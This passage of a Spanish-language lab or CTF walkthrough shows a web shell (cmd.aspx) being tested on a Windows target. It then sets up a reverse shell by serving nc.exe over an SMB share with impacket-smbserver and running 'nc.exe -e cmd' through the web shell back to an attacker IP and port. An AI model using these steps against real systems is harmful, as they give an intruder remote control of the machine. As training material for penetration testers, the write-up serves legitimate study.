 Ahora si nos vamos a la siguiente `URL` veremos que efectivamente esta la pagina que hemos subido, por lo que vamos a probar a ejecutar el comando `whoami`.

```
URL = http://<IP>/cmd.aspx
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando de forma correcta, por lo que vamos a crearnos una `reverse shell` abriendo un servidor de `SMB` para poder ejecutar `netcat` desde dicho servidor.

### Generar Reverse Shell

Primero tendremos que copiarnos el ejecutable `nc.exe` a nuestro directorio actual.

```shell
cp /usr/share/windows-binaries/nc.exe .
```

Una vez copiado nuestro binario de `netcat` vamos abrirnos el servidor de `SMB`:

```shell
impacket-smbserver -smb2support kali .
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Ahora lo que vamos hacer desde la pagina del `cmd.aspx` sera lo siguiente:

```powershell
//<IP_ATTACKER>/kali/nc.exe -e cmd <IP_ATTACKER> <PORT>
```
